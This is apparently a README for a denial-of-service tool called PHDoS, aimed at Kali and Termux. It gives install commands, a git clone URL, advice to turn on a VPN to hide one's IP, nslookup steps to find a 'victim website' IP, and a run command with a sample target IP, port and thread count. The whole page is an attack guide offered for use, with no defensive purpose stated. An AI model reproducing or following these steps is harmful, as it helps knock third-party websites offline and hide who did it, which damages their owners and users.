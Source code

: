 Kali & Termux Compatible<br>
Requirements:
$ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install python2<br>
$ apt install python3<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/5inco/PHDoS

First you need to activate a vpn to change your ip

You need the <b>IP Address</b> of a website which you want to attack...<br>
New Terminal just type:<br>
$ <b>nslookup victimwebsite.com<b><br>
Get the IP Address of a victim website<br>

Installation & Usage:<br>
$ cd PHDoS/<br>
$ ls<br>
$ python3 phdos.py -s [Victim ip Address] -p 80 -t 135<br>
example:<br>
$ python3 phdos.py -s 35.240.181.176 -p 80 -t 135<br>

